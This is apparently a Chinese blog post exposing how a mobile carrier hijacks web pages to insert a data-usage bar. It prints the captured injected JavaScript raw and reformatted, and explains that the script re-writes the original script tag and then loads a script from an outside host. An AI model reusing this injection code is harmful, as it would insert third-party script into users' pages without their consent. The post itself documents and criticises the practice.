

在用手机上网的时候经常会出现流量条, 其实就是联通干的劫持.  

用电脑抓包截获以下脚本, 这个脚本会出现在每个页面的第一个js中并替换原来的内容.  

```javascript
;(function(x,s,t,p,z){var a=x.getElementsByTagName('script'),b='<script type="text/javascript" src="'+s+z+'_p=1234'+'" ',c,d,e,f,g;for(c in a){f=a[c];if(typeof f==='object'){if(f.src.toLowerCase()===s){d=f.attributes;for(e in d){g=d[e];if(typeof g==='object'&&g.name!=='src'){b+=g.name+'="'+g.value+'" ';}}b+='></script>';x.write(b);break;}}}x.write('<scr'+'ipt type="text/javascript" src="'+t+'p='+p+'&mt='+new Date().getTime()+'"></scr'+'ipt>');})(document,'http://jwch.fzu.edu.cn/js/tab.js','http://fj.kk3g.net/fujian_apiv2/mainjs/analysis?','zfau2mj48AX61VpGARmnwEF6z5DfcZOy77axBbkdgiiq4mnnDCKWVP2HMQLxVxLY3JR00zIGCzRNxpMU4OWEiOUS%2FeBDTLQdt9SfrQjY3cowLdUJ6gTOdoPjmrEtalWqZ5NamQdtuEZupOQCDDxW9VME83lwobSv80Hf0%2BH3KCmviVNxiadp5uJA08D56DhPBRYojU6HclZviU6DEV%2BUxugRJktDna5RguTglc7DSjc2J5Zt2e9fdIt6CDAxN1ctR75uKQoDDd4=','?');
```
<!--more-->
稍微格式化一下:
```javascript
(function(x, s, t, p, z) {
    var a = x.getElementsByTagName('script'),
    b = '<script type="text/javascript" src="' + s + z + '_p=1234' + '" ',
    c,d,e,f,g;
    for (c in a) {
        f = a[c];
        if (typeof f === 'object') {
            if (f.src.toLowerCase() === s) {
                d = f.attributes;
                for (e in d) {
                    g = d[e];
                    if (typeof g === 'object' && g.name !== 'src') {
                        b += g.name + '="' + g.value + '" ';
                    }
                }
                b += '></script>';
                x.write(b);
                break;
            }
        }
    }
    x.write('<scr' + 'ipt type="text/javascript" src="' + t + 'p=' + p + '&mt=' + new Date().getTime() + '"></scr' + 'ipt>');
})(
    document, 
    'http://jwch.fzu.edu.cn/js/tab.js', 
    'http://fj.kk3g.net/fujian_apiv2/mainjs/analysis?', 
    'zfau2mj48AX61VpGARmnwEF6z5DfcZOy77axBbkdgiiq4mnnDCKWVP2HMQLxVxLY3JR00zIGCzRNxpMU4OWEiOUS%2FeBDTLQdt9SfrQjY3cowLdUJ6gTOdoPjmrEtalWqZ5NamQdtuEZupOQCDDxW9VME83lwobSv80Hf0%2BH3KCmviVNxiadp5uJA08D56DhPBRYojU6HclZviU6DEV%2BUxugRJktDna5RguTglc7DSjc2J5Zt2e9fdIt6CDAxN1ctR75uKQoDDd4=', 
    '?'
);
```
稍微分析一下就知道他是复制了原先的 script 标签的内容, 然后在后面加上_p=1234, 再加进去, 就获取了原先js的内容.  
最后一行再把 kk3g 的 script标签扔进去, qj你的页面, 加上流量啥的  
已经打电话给联通了, 客服说技术人员等下联系我, 到现在也没联系我  

一起来欣赏一下他的<del>狗屎</del>主页:  
